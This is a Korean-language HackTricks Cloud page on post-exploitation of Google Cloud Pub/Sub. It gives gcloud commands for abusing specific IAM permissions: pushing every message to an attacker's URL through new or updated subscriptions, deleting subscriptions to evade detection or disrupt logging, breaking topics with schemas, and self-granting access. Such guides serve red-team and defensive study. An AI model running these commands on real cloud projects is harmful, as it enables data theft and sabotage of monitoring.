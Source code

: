 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## Pub/Sub

Pub/Sub에 대한 자세한 정보는 다음 페이지를 확인하세요:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

주제에 메시지를 게시하여 **예상치 못한 데이터**를 전송하고 예상치 못한 기능을 트리거하거나 취약점을 악용하는 데 유용합니다:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

구독이 메시지를 받지 않도록 방지하는 데 유용하며, 아마도 탐지를 피하기 위해서입니다.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

구독이 메시지를 받지 못하도록 방지하는 데 유용하며, 아마도 탐지를 피하기 위해서입니다.\
구독이 연결된 상태에서도 주제를 삭제할 수 있습니다.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

이 권한을 사용하여 주제를 방해하기 위해 `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`와 같은 설정을 업데이트합니다...

### `pubsub.topics.setIamPolicy`

이전 공격을 수행할 수 있는 권한을 부여합니다.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

웹 서버에서 모든 메시지를 가져옵니다:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

구독을 생성하고 이를 사용하여 **메시지를 가져옵니다**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**구독 삭제**는 로그 처리 시스템이나 유사한 것을 방해하는 데 유용할 수 있습니다:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

이 권한을 사용하여 메시지가 액세스할 수 있는 위치(URL, Big Query 테이블, Bucket)에 저장되도록 일부 설정을 업데이트하거나 단순히 방해할 수 있습니다.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

자신에게 이전에 언급된 공격을 수행하는 데 필요한 권한을 부여합니다.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

스키마를 주제에 연결하여 메시지가 이를 충족하지 않도록 하여 주제가 중단되도록 합니다.\
스키마가 없다면 하나를 생성해야 할 수도 있습니다.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

이것은 스키마를 삭제하는 것처럼 보일 수 있지만, 스키마를 충족하지 않는 메시지를 보낼 수 있습니다. 그러나 스키마가 삭제되므로 실제로는 어떤 메시지도 주제에 들어가지 않습니다. 따라서 이것은 **무의미합니다**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

필요한 권한을 부여하여 이전에 언급된 공격을 수행할 수 있습니다.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

이것은 모든 unACKed 메시지의 스냅샷을 생성하고 이를 구독으로 다시 넣습니다. 공격자에게는 그다지 유용하지 않지만 여기에 있습니다:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.

</details>
{% endhint %}
